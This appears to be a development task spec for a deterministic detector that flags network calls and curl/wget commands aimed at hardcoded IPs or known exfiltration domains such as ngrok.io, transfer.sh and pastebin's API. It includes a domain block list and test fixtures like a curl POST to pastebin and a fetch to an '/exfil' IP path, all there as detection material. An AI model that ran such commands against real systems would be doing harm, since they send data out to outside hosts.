

### Problem Statement

Implement a deterministic security rule in the `pack-agent-security` package to detect potentially malicious network requests. The rule must intercept HTTP client calls (`fetch`, `axios`, `http/s.request`, `net.Socket`) and shell executions (`curl`, `wget`) that target hardcoded numeric IPs or specific exfiltration domains loaded dynamically from an external JSON list.

### Architectural Context

This feature directly addresses ADR-089 (Attack Surface 3: Exfiltration) under the broader "Zero-Trust Agent Governance" initiative (Proposal 228). The core strategy relies on deterministic compile-time and run-time gates to prevent agent hijacking and data exfiltration. The dynamic domain list satisfies the requirement to update threat intelligence without requiring a core engine release.

### Files to Examine

1. `packages/core/src/compiler-schema.ts` — To understand the `CompiledRule` structure and how `immutable: true` and `severity: 'error'` are modeled.
2. `packages/pack-agent-security/test/rules.test.ts` — Review the `runRule` helper to understand how rules are tested in the harness.
3. `packages/pack-agent-security/package.json` — To verify build outputs and ensure the new JSON file will be included in the distributed pack (you may need to update build scripts/exports).
4. `packages/core/src/semgrep-adapter.ts` — To understand how standard AST-grep/Semgrep YAMLs are parsed if deciding to bridge YAML into the TS representation.

### Technical Approach & Contracts

**1. Data Contract for Threat Intelligence**
Create a `suspicious-domains.json` file in `packages/pack-agent-security/data/`. Define a Zod schema in the loader utility to enforce the contract:

```typescript
import { z } from 'zod';

export const SuspiciousDomainsSchema = z.object({
  domains: z.array(z.string()),
  // Extensible for future dynamic IPs
  ips: z.array(z.string()).optional(),
});
export type SuspiciousDomains = z.infer<typeof SuspiciousDomainsSchema>;
```

**2. Dynamic Loader & Regex Generation**
You MUST use the shared `readJsonSafe` helper from `@mmnto/totem`.

- Construct an absolute path to the JSON using `path.resolve(__dirname, '../../data/suspicious-domains.json')` (adjust traversal based on actual `dist/` vs `src/` layout).
- Transform the domain list into a Regex group. Wildcards like `*.trycloudflare.com` must translate to `.*\.trycloudflare\.com`.

**3. AST-Grep Compound Rule Definition**
Export a `CompiledRule` object from a new file. Use a template string for the `astGrepYamlRule` property, allowing the dynamic injection of the regex string:

- **Selectors:** `fetch($URL, $$$_)`, `axios.get($URL, $$$_)`, `axios.post($URL, $$$_)`, `http.request($URL, $$$_)`, `https.request($URL, $$$_)`, `new net.Socket()`, `socket.connect($URL, $$$_)`.
- **Condition:** Match `$URL` against the dynamically generated regex combining the hardcoded IPv4/IPv6 pattern and the JSON domains.

**4. Regex Fallback for Shell Executions**
Add a `regex` fallback on the `CompiledRule` definition (or a secondary sibling rule if the schema requires distinct rule types) to scan literal strings containing `curl ` or `wget ` followed by the same domain/IP regex.

### Edge Cases & Traps

- **Path Resolution Regressions:** `__dirname` behaves differently in source `.ts` execution (tests) vs compiled `.js` distribution. The JSON file MUST be explicitly copied to the output directory during the build step (check `package.json` scripts), or path resolution will fail in production.
- **Subdomain Bypasses:** The domain list contains entries like `ngrok.io`. A naive regex `ngrok\.io` matches `my-ngrok.io.com`. The regex MUST be anchored to `(?:^|\.|//)(ngrok\.io)`.
- **Wildcard Parsing:** `*.onion` must correctly map to a regex that allows subdomains but doesn't accidentally treat the `*` as a literal or standard regex quantifier if not escaped properly.
- **Localhost False Positives:** Hardcoded IPs include `127.0.0.1` and `0.0.0.0`. While technically IPs, developers commonly hardcode these for local testing. The issue specifies "numeric IP addresses" globally, but you must ensure Totem's test repo zero-false-positive rule isn't violated by existing local server test fixtures.
- **Shared Helpers Enforcement:** Do NOT use `fs.readFileSync` combined with `JSON.parse`. You are mandated to use `readJsonSafe(filePath, SuspiciousDomainsSchema)`.

### Implementation Tasks

- [ ] **Task 1: Define Domain Payload & Loader Contract**
  - Create `packages/pack-agent-security/data/suspicious-domains.json` with the initial list (`pastebin.com/api/*`, `ngrok.io`, `*.trycloudflare.com`, `*.onion`, `transfer.sh`, `gofile.io`, `anonfiles.com`).
  - Create `packages/pack-agent-security/src/utils/domain-loader.ts`.
  - Define the `SuspiciousDomainsSchema` and use `readJsonSafe` to load it.
  - Implement a `buildThreatRegex()` function that parses the JSON and returns a secure, escaped Regex string handling `*.` syntax.
    > TEST DIRECTIVE: Before implementing, write a failing test named `securely parses wildcard domains and escapes regex characters` that proves `*.trycloudflare.com` does not match `xtrycloudflare.com`.
  - write test → verify fails → implement → verify passes → lint

- [ ] **Task 2: Build the Network AST-Grep Template**
  - Create `packages/pack-agent-security/src/rules/no-suspicious-network.ts`.
  - Define the `CompiledRule` skeleton (`immutable: true`, `severity: 'error'`, `id: 'no-suspicious-network-requests'`).
  - Write the YAML template using ast-grep syntax covering `fetch`, `axios`, `http.request`, `https.request`, and `net.Socket`.
  - Inject the dynamic regex from Task 1 into the `regex` operator of the YAML block.
    > TEST DIRECTIVE: Before implementing, write a failing test named `detects fetch invocation with literal ipv4 address` using the `runRule` helper.
  - write test → verify fails → implement → verify passes → lint

- [ ] **Task 3: Implement Shell Execution Regex Fallback**
  - Expand the rule definition to include a regex fallback targeting `curl ` and `wget ` commands embedded inside strings.
  - Ensure the fallback safely leverages the same `buildThreatRegex()` output.
    > TEST DIRECTIVE: Before implementing, write a failing test named `detects curl execution containing suspicious ngrok domain inside string literal`.
  - write test → verify fails → implement → verify passes → lint

- [ ] **Task 4: Zero False Positive Verification**
  - Update `packages/pack-agent-security/test/rules.test.ts` (or the equivalent integration harness).
  - Add explicit `goodExample` tests containing OpenAI, Anthropic, Gemini, Ollama, and npm registry URLs as strings inside `fetch` and `axios`.
    > TEST DIRECTIVE: Before implementing, write a failing test named `allows legitimate api domains without triggering false positives` covering all Totem-permitted endpoints.
  - write test → verify fails → implement → verify passes → lint

- [ ] **Task 5: Export Rule & Update Build Context**
  - Export the new rule from `packages/pack-agent-security/src/index.ts`.
  - Check `packages/pack-agent-security/package.json` to ensure the `data/` directory (or wherever the JSON lives) is copied to `dist/` during the build step, ensuring `readJsonSafe` does not crash in production.
  - write test (or update existing build test) → verify fails → implement → verify passes → lint

### Execution Flow (structural constraint)



### Verification (MANDATORY — do not skip)

Every implementation MUST end with these steps:

1. `totem lint` — deterministic rule check (zero LLM, ~2s). Fixes any violations.
2. `totem review` — AI-powered architectural review (~18s). Addresses any critical findings.
3. If using MCP, call `verify_execution` to confirm compliance before declaring the task done.

### Test Plan

- **Unit (JSON Loader):** Validate that corrupt JSON or a missing file throws a `TotemParseError` (via `readJsonSafe`), and that wildcards properly escape (`*.onion` matches `api.onion` but not `myonion.com`).
- **Unit (AST-Grep):** Fixtures must include `fetch("http://185.220.101.5/exfil")`, `axios.post("https://ngrok.io/abc")`, `new net.Socket().connect(80, "185.220.101.5")`.
- **Unit (Regex Fallback):** Fixture must catch `execSync('curl -X POST http://pastebin.com/api/xxx')`.
- **Integration:** Ensure the rule successfully loads via the `pack-agent-security` index, successfully reads the JSON from the built directory path, and flags exactly the target nodes while ignoring string concatenations (out of scope) and legitimate domains (`api.openai.com`).
